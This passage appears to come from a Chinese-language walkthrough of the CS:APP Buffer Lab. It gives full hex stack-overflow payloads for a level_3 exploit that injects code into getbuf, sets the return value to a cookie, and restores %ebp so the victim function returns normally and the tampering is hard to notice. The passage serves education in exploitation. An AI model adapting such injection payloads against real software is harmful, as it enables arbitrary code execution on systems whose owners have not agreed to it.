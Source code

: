 * `Answer`

  ```text
  c7 05 0c d1 04
  08 44 eb 3c 7d
  68 52 8d 04 08
  c3 00 00 00 00
  00 00 00 00 00
  00 00 00 00 00
  00 00 00 00 00
  00 00 00 00 00
  00 00 00 00
  28 35 68 55
  ```

* 测试

  ![image-20210601123100761](https://gitee.com/Monkeyman520/MonkeyImgURL/raw/master/img/image-20210601123100761.png)

#### `level_3`😮

根据作者的攻略，该任务中我们将修复这些被我们破坏的栈状态信息，让最后还 是回到 test 中，让被攻击者不容易发现我们动了手脚，而我们还要把 test 调用的` getbuf` 的返回值由` 0x1` 改成我们的 cookie 简单的说就是，首先要保证函数` getbuf` 可以正常返回，即返回地址和`%ebp` 的值要 不变，其此要将函数 `getbuf `的返回值改为 cookie 

* 关键函数

  * ![image-20210601123256282](https://gitee.com/Monkeyman520/MonkeyImgURL/raw/master/img/image-20210601123256282.png)
  * ![image-20210601123813305](https://gitee.com/Monkeyman520/MonkeyImgURL/raw/master/img/image-20210601123813305.png)

* 分析

  * 要获得正确的`%ebp` 的值，应该将断点设置在`*0x08049263` 处 使用` gdb` 查看可得
    * ![image-20210601123540280](https://gitee.com/Monkeyman520/MonkeyImgURL/raw/master/img/image-20210601123540280.png)
    * 因此，最后`%ebp` 的值应该设为 `0x55683580` ,返回查看 test 函数，可得到` getbuf` 函数的返回地址应该为 `0x08048e50`
    * 利用` level2` 的思路，自己使用汇编语言编写一段“函数”，实现对返回值即 对`%eax `以及`%ebp` 的赋值。对`%ebp `的赋值也可以在向上覆盖时完成
      * ![image-20210601125843782](https://gitee.com/Monkeyman520/MonkeyImgURL/raw/master/img/image-20210601125843782.png)

* `Answer`

  ```text
  b8 44 eb 3c 7d
  bd 80 35 68 55
  68 50 8e 04 08
  c3 00 00 00 00
  00 00 00 00 00
  00 00 00 00 00
  00 00 00 00 00
  00 00 00 00 00
  00 00 00 00
  28 35 68 55
  ```
